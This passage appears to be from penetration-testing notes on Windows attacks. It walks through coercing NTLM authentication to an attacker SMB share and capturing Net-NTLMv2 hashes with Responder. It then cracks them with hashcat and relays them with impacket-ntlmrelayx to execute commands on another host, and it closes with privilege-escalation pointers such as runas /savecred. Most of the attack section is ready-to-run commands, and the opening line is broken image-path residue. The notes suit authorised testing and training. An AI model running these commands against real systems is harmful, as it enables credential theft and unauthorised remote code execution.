 ```sh
\\<your_ip>\share\nonexistent.pdf
```


3. **Capture the Hash**: Responder will capture the challenge-response exchange. The hash will look something like this:

```sh
[SMB] NTLMv2-SSP Hash Captured: user::domain:challenge:response_hash
```

4. **Crack the Hash**: Use a tool like Hashcat with mode 5600 to crack the captured hash offline.

```sh
hashcat -m 5600 ntlmv2.hash /usr/share/wordlists/rockyou.txt
```

---

### Relaying Net-NTLMv2

This technique is used when you have captured a user's Net-NTLMv2 hash but cannot crack it. The core idea is to forward this hash to another machine for authentication, hoping the user has administrative privileges on that target machine.

{{< hint style=warning >}}
**Requirement**: The success of this attack against a user who is not the default local Administrator depends on UAC Remote Restrictions being disabled on the target machine.
{{< /hint >}}

1. **Setup (on Attacker Machine)**: Use `impacket-ntlmrelayx` to listen for a connection and relay it to the target, executing a command upon success.

```sh
impacket-ntlmrelayx -t [Target_2_IP] -c "[Command_to_Execute]" -smb2support
```

2. Trigger (on Source Machine: TARGET_1)

```sh
ls \\<your_ip>\share
```

3. Relay (by Attacker Machine)

The `ntlmrelayx` tool intercepts the authentication attempt from TARGET_1. It does not authenticate it. Instead, it forwards (relays) the hash to the specified target, TARGET_2.

4. Execution (on Target Machine: TARGET_2)

TARGET_2 receives the relayed authentication request and validates the TARGET_2_admin hash. 

**IF** TARGET_2_admin is a local administrator **AND** UAC remote restrictions are disabled, the authentication succeeds. TARGET_2 then executes the payload supplied by `ntlmrelayx` in Step 1.


---

## Other

* Saved Windows Credentials
  * cmdkey /list
  * runas /savecred /user:admin cmd.exe
* Scheduled Tasks
* Insecure Permissions on Service Executable
* Insecure Service Permissions
* Windows Privileges
* Unpatched Software